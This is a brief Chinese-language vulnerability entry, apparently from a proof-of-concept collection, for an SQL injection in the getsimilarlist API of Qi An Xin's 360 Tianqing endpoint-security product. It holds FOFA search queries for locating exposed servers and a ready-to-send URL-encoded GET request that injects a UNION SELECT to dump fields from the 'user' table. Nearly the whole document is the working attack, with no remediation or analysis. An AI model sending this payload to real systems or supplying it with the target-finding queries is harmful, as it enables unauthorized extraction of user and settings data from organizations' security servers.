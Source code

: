 
## 奇安信360天擎getsimilarlistSQL注入漏洞

## fofa
```
body="/task/index/detail?id={item.id}"
title="360新天擎"
```

## POC
```
GET /api/client/getsimilarlist?status[0,1%29+union+all+select+%28%2F%2A%2150000select%2A%2F+79787337%29%2C+setting%2C+setting%2C+status%2C+name%2C+create_time+from+%22user%22+where+1+in+%281]=1&status[0]=1 HTTP/1.1
```

